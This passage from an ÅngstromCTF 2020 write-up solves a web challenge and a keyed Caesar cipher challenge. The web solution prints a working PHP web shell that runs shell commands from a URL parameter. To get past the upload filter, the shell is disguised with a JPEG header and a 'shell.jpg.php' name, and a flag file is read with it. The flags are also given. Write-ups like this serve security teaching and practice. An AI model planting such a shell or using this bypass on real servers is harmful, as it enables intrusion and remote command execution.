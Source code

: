 ## web (120pts)

> One year since defund's descent. One crypt. One void to fill. Clam must do it, [and so must you](https://crypt.2020.chall.actf.co/).
> 
> Author: aplet123

### Solution

The page is rather minimal and its only functionality is a button to upload some image file. If we try uploading a file that doesn't have `.jpg` in it, or doesn't start with the JPEG file header, we get an error message. However, we can easily upload a PHP shell and include the JPEG header at the start of the file, and name the file `shell.jpg.php`.

`shell.jpg.php`:

```php
<jpeg file header>

<?php echo shell_exec($_GET['cmd']); ?>
```

Uploading this file and navigating to it on the server with the query parameter `?cmd=cat /flag.txt` gives us the flag: `actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}`

---

# Keysar <a name="keysar"></a>

## crypto (40pts)

> Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.
>
> He mumbled what cipher he used, but I think I have a clue.
>
> Gotta go though, I have history homework!!
>
> agqr{yue_stdcgciup_padas}
>
> Author: joshdabosh

### Solution

Use http://rumkin.com/tools/cipher/caesar-keyed.php

![keysar-flag.png](./assets/keysar-flag.png)

---